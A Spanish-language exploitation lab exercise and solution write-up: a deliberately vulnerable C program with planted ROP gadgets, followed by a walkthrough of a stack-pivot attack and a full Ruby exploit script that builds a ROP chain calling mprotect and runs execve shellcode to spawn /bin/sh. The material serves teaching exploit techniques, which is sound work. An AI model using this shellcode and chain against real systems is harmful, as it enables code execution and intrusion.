



# PTR-01

**Objetivo**: Lograr que el programa listado a continuación muestre "Hello, world!" en la terminal. Como siempre, no se permite modificar el código ni el binario compilado.

```c
// ptr-01.c

#include <sys/types.h>
#include <sys/stat.h>
#include <sys/mman.h>
#include <unistd.h>
#include <stdio.h>
#include <fcntl.h>

/*
 * Nota: utilizamos un FIFO porque es la forma más simple de leer datos binarios
 * luego de emitir mensajes por salida estándar, dando la oportunidad de generar
 * la entrada en función de los datos emitidos.
 *
 */
char *fifo_path = "/tmp/ptr-01-input";

int start_fifo() {
  mkfifo(fifo_path, 0600);
  return open(fifo_path, O_RDONLY);
}

void finish_fifo(int fd) {
  close(fd);
  unlink(fifo_path);
}

void aid() {
  asm("pop %rdi; ret");
  asm("pop %rsi; ret");
  asm("pop %rdx; ret");
}

void hint() {
  asm("xchg %rsi, %rsp; ret");
}

int main(int argc, char **argv) {
  void (*fn)() = 0;
  char buffer[1024];

  /* Supongamos que contamos con primitivas potentes de lectura. Utilizando
   * dichas primitivas logramos leer los siguientes valores:
   */
  printf("\n");

  printf("&mprotect\n");
  printf("%p\n\n", &mprotect); 

  printf("&buffer\n");
  printf("%p\n\n", &buffer);
    
  printf("&aid\n");
  printf("%p\n\n", &aid);
  
  
  /* Escribir a /tmp/ptr01-input una entrada que logre que este programa
   * muestre el mensaje "Hello, world!" en la terminal.
   */
  int fifo = start_fifo();
  read(fifo, &fn, 8);
  read(fifo, &buffer, 1024);
  finish_fifo(fifo);

  fn();
  return 0;
}
```


## Solución

En ejercicios anteriores vimos cómo era posible utilizar la técnica llamada ROP para vencer a W^X. Lo que hacíamos en esos casos era escribir una cadena de direcciones de gadgets, entremezcladas con datos convenientes, a partir de una dirección de retorno en el stack. Con ésto lograbamos que, cuando la correspondiente función retornara, la ejecución de la cadena efectivizara nuestro payload.

En este ejercicio, sin embargo, la situación es diferente. En este caso, si bien contamos con la posibilidad de escribir datos en un buffer, no contamos con la posiblidad de desbordarlo para corromper el correspondiente frame. Observaremos, sin embargo, que tenemos efectivamente la posibilidad de modificar un puntero a función, la cuál será luego ejecutada.

Clásicamente, cuando uno modificaba un puntero a función, podía hacerlo apuntar directamente a shellcode inyectado o en el stack o en el heap. Hoy en día, sin embargo, resulta necesario aplicar primero alguna técnica de reutilización de código como ROP para vencer a W^X.  Oportunamente, la solución de este ejercicio es bastante simple, como veremos a continuación.

Compilamos primero el binario con gcc

```bash
gcc  ptr-01.c -o ptr-01
```

y lo analizamos con objdump:

```bash
objdump -M intel -d ptr-01
```



La sección relevante del código de la función `main` es el que resaltamos en la captura. Observaremos que en la llamada a `read` guardamos en el registro rsi la dirección del buffer en el cuál serán guardados los datos. Si prestamos atención, no hay instrucción que vuelva a cambiar el valor del registro hasta el final de la función. Esto implica que, al momento de llamar a `fn` con la instrucción `call rdx`, en el registro rsi estará efectivamente la dirección de nuestro buffer. ¿Qué ocurriría entonces si, por algún motivo misterioso, se ejecutara en ese instante la instrucción `xchg rsi, rsp`? Lo que ocurrirá en tal caso es que el puntero al tope del stack pasará a apuntar al inicio de nuestro buffer, donde podremos haber inyectado una cadena de ROP, seguida por un bloque de shellcode. La técnica en cuestión se llama **stack pivot**, y consiste justamente en reemplazar al stack real por un stack corrupto controlado por el atacante.

Tomaremos entonces el script en Ruby que habíamos utilizado en la solución del ejercicio [rop-01](../../xploit/rop-01/rop-01.md) y le haremos algunas modificaciones para contemplar el pivote:

```ruby
#!/usr/bin/ruby

# generate-input.rb

payload = 
"\x6a\x3b\x58\x99\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68\x00" +
"\x53\x48\x89\xe7\x68\x2d\x63\x00\x00\x48\x89\xe6\x52\xe8" +
"\x13\x00\x00\x00\x65\x63\x68\x6f\x20\x48\x65\x6c\x6c\x6f" +
"\x2c\x20\x77\x6f\x72\x6c\x64\x21\x00\x56\x57\x48\x89\xe6" +
"\x0f\x05".force_encoding("ASCII-8BIT")


# Completar con la dirección de mprotect
addr_mprotect = 0x0

# Completar con la dirección del buffer
addr_buffer = 0x0

# Completar con la dirección de aid
addr_aid = 0x0


# Generamos la cadena. Todos los valores estarán en formato little endian.
chain = [
    addr_aid + 4,
    addr_buffer & ~0xfff,
    addr_aid + 6,
    0x100,
    addr_aid + 8,
    0x7,
    addr_mprotect,
    addr_buffer + 128 # mprotect retornará cerca de la mitad del nopsled.
]

# Calculamos la dirección de xchg rsi,rsp en base a la dirección de aid.
addr_pivot = [addr_aid + 17].pack(">Q")

# Ponemos un nopsled antes del payload.
payload = ("\x90"*256 + payload).force_encoding("ASCII-8BIT")

# Generamos el exploit.
puts addr_pivot + chain.pack(">Q*") + payload
```


Ejecutamos entonces el programa para tomar nota de las direcciones:




Reemplazamos los valores en el script, en este caso los siguientes:

```ruby
# Completar con la dirección de mprotect
addr_mprotect = 0x7fd7e8901ae0

# Completar con la dirección del buffer
addr_buffer = 0x7fffd0f4a220

# Completar con la dirección de aid
addr_aid = 0x55dcd1b4f954
```


Procedemos ahora a ejecutar el script, enviando la salida al fifo:

```bash
chmod u+x generate-input.rb && ./generate-input.rb > /tmp/ptr01-input
```

Deberíamos observar entonces algo como lo siguiente:




Observamos que nuestro payload se ejecuta satisfactoriamente, concluyendo el ejercicio.


## Conclusión

Con este ejercicio hemos adquirido una técnica que nos permitirá lanzar cadenas de ROP incluso cuando no tenemos control de la dirección de retorno de de algún frame. Hay que tener en cuenta, sin embargo, que el gadget que utilizamos para lograr nuestro pivote no es precisamente ubicuo. Si bien en otros sistemas operativos es mucho más fácil, en Linux pivotear puede requerir un trabajo de ingeniería no trivial, transicionando a ROP desde otras técnicas de reutilización de código más sofisticadas; en el siguiente ejercicio estaremos viendo un caso concreto en detalle. Adicionalmente, a partir de ahora estaremos construyendo nuestros exploits en base a gadgets provenientes de bibliotecas externas en vez de embeberlos en el programa objetivo. Será entonces un buen momento para familiarizarse con herramientas como ROPgadget, ropper y/o BARF.